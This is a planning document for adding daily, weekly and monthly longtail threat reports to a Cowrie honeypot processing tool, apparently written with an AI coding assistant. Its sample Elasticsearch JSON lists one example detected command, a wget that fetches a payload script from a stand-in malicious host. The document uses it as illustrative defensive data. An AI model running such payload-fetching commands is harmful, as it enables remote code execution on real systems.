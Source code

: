 # Longtail Analysis Reporting - Future Implementation Plan

**Status**: Planned Feature
**Priority**: Medium
**Target**: Future Sprint (Post-Phase 4)
**Related**: cowrieprocessor/threat_detection/longtail.py

---

## Overview

The longtail analysis system currently stores detection data in database tables but lacks a comprehensive reporting interface. This document outlines plans to implement automated reporting similar to the existing DShield/Elasticsearch reports.

## Current State

**Implemented**:
- ✅ Longtail analysis detection and storage (`longtail_analysis`, `longtail_detections` tables)
- ✅ Command sequence vectorization (`command_sequence_vectors` table)
- ✅ Behavioral pattern vectorization (`behavioral_vectors` table)
- ✅ Detection type categorization (rare commands, outlier sessions, emerging patterns, high entropy payloads)
- ✅ Confidence scoring and severity ranking

**Missing**:
- ❌ Automated reporting CLI command
- ❌ Daily/weekly/monthly report aggregation
- ❌ Trend analysis and visualization data
- ❌ Top threats summary reports
- ❌ Performance metrics reporting

## Proposed Implementation

### Phase 1: CLI Command Structure

Add new subcommand to `cowrie-report`:

```bash
# Daily longtail threat report
uv run cowrie-report longtail-daily 2025-10-25 --db "postgresql://..." --publish

# Weekly aggregated longtail report
uv run cowrie-report longtail-weekly 2025-W43 --db "postgresql://..." --publish

# Monthly trend report
uv run cowrie-report longtail-monthly 2025-10 --db "postgresql://..." --publish

# Quick status check
uv run cowrie-report longtail-status --db "postgresql://..." --last-days 7
```

### Phase 2: Report Modules

Create new module: `cowrieprocessor/reporting/longtail_reports.py`

**Report Types**:
1. **Daily Summary**: Latest detections, top threats, quick metrics
2. **Weekly Rollup**: Trend analysis, threat evolution, pattern changes
3. **Monthly Report**: Strategic overview, quarter comparison, recommendations
4. **Status Dashboard**: Real-time threat landscape, active patterns

### Phase 3: Data Access Layer

Extend `cowrieprocessor/reporting/dal.py` with longtail-specific queries:

```python
class LongtailReportingDAL:
    def get_daily_summary(self, date: datetime) -> Dict[str, Any]:
        """Daily detection summary with top threats."""

    def get_weekly_trends(self, week: str) -> Dict[str, Any]:
        """Weekly trend analysis with comparisons."""

    def get_monthly_overview(self, month: str) -> Dict[str, Any]:
        """Monthly strategic overview and recommendations."""

    def get_top_rare_commands(self, days: int, limit: int) -> List[Dict]:
        """Most frequently detected rare commands."""

    def get_outlier_sessions(self, days: int, limit: int) -> List[Dict]:
        """Highest severity outlier sessions."""

    def get_detection_trends(self, months: int) -> List[Dict]:
        """Detection type trends over time."""
```

### Phase 4: Elasticsearch Integration

Publish longtail reports to Elasticsearch for visualization:

**Index Pattern**: `cowrie-longtail-{daily,weekly,monthly}-YYYY.MM.DD`

**Document Structure**:
```json
{
  "timestamp": "2025-10-25T00:00:00Z",
  "period_type": "daily",
  "sensor": "honeypot-a",
  "summary": {
    "total_analyses": 12,
    "rare_command_count": 45,
    "outlier_session_count": 8,
    "avg_confidence": 0.87,
    "avg_severity": 6.2
  },
  "top_threats": [
    {
      "type": "rare_command",
      "command": "wget http://malicious.com/payload.sh",
      "detection_count": 12,
      "avg_severity": 8.5,
      "unique_sessions": 3
    }
  ],
  "trends": {
    "detection_increase_pct": 23.5,
    "new_patterns_detected": 5,
    "command_diversity_score": 0.72
  }
}
```

## Reference SQL Queries

The SQL queries in `longtail_reporting_queries.sql` (root directory) provide implementation reference for:

- **Quarterly Reports**: Q1-Q4 analysis summaries with aggregated metrics
- **Monthly Reports**: 12-month rolling summary with trend data
- **Weekly Reports**: Last 12 weeks with detection counts
- **Daily Reports**: Last 30 days with granular metrics
- **Top Threats**: Most detected rare commands and outlier sessions
- **Vector Analysis**: Command similarity analysis using pgvector
- **Trend Analysis**: Monthly threat evolution and pattern emergence
- **Performance Metrics**: Analysis duration and resource usage
- **Data Quality**: Enrichment coverage and recommendation tracking

See: `longtail_reporting_queries.sql` (to be moved to notes/)

## Integration Points

1. **cowrie-report CLI**: Add longtail subcommands
2. **Reporting DAL**: Extend with longtail queries from SQL reference
3. **ES Publisher**: Add longtail index patterns and mappings
4. **Status Emitter**: Real-time longtail analysis progress
5. **CHANGELOG**: Document new reporting capabilities

## Testing Strategy

1. **Unit Tests**: Test report generation logic with mock data
2. **Integration Tests**: Verify Elasticsearch publishing
3. **Performance Tests**: Ensure report generation scales with data volume
4. **SQL Tests**: Validate query accuracy against known datasets

## Dependencies

- PostgreSQL database with longtail tables
- (Optional) pgvector extension for similarity queries
- Elasticsearch cluster for report publishing
- Existing reporting infrastructure (`cowrieprocessor/reporting/`)

## Timeline Estimate

- **Phase 1 (CLI Structure)**: 2-3 days
- **Phase 2 (Report Modules)**: 3-4 days
- **Phase 3 (Data Access Layer)**: 4-5 days
- **Phase 4 (ES Integration)**: 2-3 days
- **Testing & Documentation**: 3-4 days

**Total**: ~2-3 weeks of focused development

## Success Metrics

- ✅ Daily/weekly/monthly reports generate successfully
- ✅ Reports publish to Elasticsearch without errors
- ✅ Top threats section accurately reflects detection data
- ✅ Trend analysis shows meaningful patterns
- ✅ Performance acceptable (<5s per report)
- ✅ Documentation complete with examples

## Notes

- Consider adding Grafana dashboards using Elasticsearch data
- May want to integrate with existing DShield report workflow
- Could add email/Slack notifications for high-severity detections
- Vector similarity queries require pgvector extension

---

**Created**: 2025-10-25
**Last Updated**: 2025-10-25
**Status**: Planning Phase

🤖 Generated with [Claude Code](https://claude.com/claude-code)
